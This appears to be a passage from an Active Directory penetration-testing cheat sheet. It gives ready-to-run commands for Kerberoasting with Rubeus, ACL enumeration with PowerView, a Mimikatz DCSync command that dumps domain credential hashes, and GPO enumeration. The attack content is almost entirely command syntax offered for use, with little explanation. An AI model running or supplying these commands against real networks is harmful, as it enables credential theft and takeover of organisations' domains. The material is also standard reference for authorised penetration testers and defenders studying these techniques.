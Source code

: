It is used to Extract TGS Tickets.

> Rubeus

```
PS C:\> .\Rubeus.exe kerberoast /user:<username> /nowrap
```

Download: https://github.com/GhostPack/Rubeus



## ACL Enumeration

### Interesting Tools

> PowerView

```
PS C:\> Find-InterestingDomainAcl
```

Other way:

```
PS C:\> Import-Module .\PowerView.ps1
PS C:\> $sid = Convert-NameToSid <username>
PS C:\> Get-DomainObjectACL -Identity * | ? {$_.SecurityIdentifier -eq $sid}
```

Other way:

```
PS C:\> $sid2 = Convert-NameToSid <username>
PS C:\> Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid2} -Verbose
```

> BloodHound



## DCSync

### Interesting Tools

> Mimikatz

Syntax:

```
mimikatz # lsadump::dcsync /domain:<domain> /user:<username>
```



## Enumerating GPO Names

> Powershell

```
PS C:\> Get-DomainGPO -All |select displayname
```


